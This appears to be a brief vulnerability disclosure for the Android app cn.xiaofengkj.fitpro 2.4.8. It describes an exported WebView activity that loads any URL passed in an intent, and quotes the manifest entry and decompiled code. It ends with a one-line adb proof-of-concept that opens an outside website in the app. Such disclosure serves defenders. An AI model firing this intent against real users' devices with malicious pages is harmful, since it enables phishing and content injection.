

# cn.xiaofengkj.fitpro

cn.xiaofengkj.fitpro contains an export component LocalAssetHtmlActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: cn.xiaofengkj.fitpro
- version: 2.4.8

```xml
<activity android:theme="@style/RtkAppTheme.NoActionBar" android:label="@string/rtk_dfu_title_settings" android:name="com.realsil.sdk.support.p641ui.LocalAssetHtmlActivity" android:exported="true" android:launchMode="singleTop" android:configChanges="screenSize|orientation|keyboardHidden|keyboard">
    <intent-filter android:priority="1">
        <action android:name="rtk.settings.HELP"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

```java
package com.realsil.sdk.support.p641ui;
public final class LocalAssetHtmlActivity extends BaseActivity {
    public static final String EXTRA_KEY_ASSET_URL = "url";
    public static final String EXTRA_KEY_DEFAULT_TITLE = "default_title";
    public static final String EXTRA_KEY_REFRESH_TITLE_ENABLED = "refresh_title_enabled";

    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(C12547R.layout.rtk_activity_asset_html);
        Intent intent = getIntent();
        if (intent != null) {
            this.f15957j = intent.getStringExtra("url");
            this.f15958k = intent.getStringExtra(EXTRA_KEY_DEFAULT_TITLE);
            this.f15959l = intent.getBooleanExtra(EXTRA_KEY_REFRESH_TITLE_ENABLED, false);
        }
        if (TextUtils.isEmpty(this.f15958k)) {
            this.f15958k = getString(C12547R.string.rtk_title_loading);
        }
        ...
        WebView webView = (WebView) findViewById(C12547R.C12550id.help_contents);
        this.f15961n = webView;
        webView.setWebViewClient(new WebViewClient(this) {
            @Override
            public boolean shouldOverrideUrlLoading(WebView webView2, String str) {
                webView2.loadUrl(str);
                return true;
            }
        });
        this.f15961n.setWebChromeClient(new WebChromeClient() {
            @Override
            public void onReceivedTitle(WebView webView2, String str) {
                super.onReceivedTitle(webView2, str);
                if (LocalAssetHtmlActivity.this.f15959l) {
                    if (!TextUtils.isEmpty(str)) {
                        LocalAssetHtmlActivity.this.f15960m.setTitle(str);
                    } else {
                        LocalAssetHtmlActivity.this.f15960m.setTitle(C12547R.string.rtk_title_help);
                    }
                }
            }
        });
        if (bundle == null) {
            this.f15961n.loadUrl(this.f15957j);
        } else {
            this.f15961n.restoreState(bundle);
        }
    }
```

PoC:

```sh
$ adb shell am start -n cn.xiaofengkj.fitpro/com.realsil.sdk.support.ui.LocalAssetHtmlActivity -e "url" "https://www.windows93.net"
```


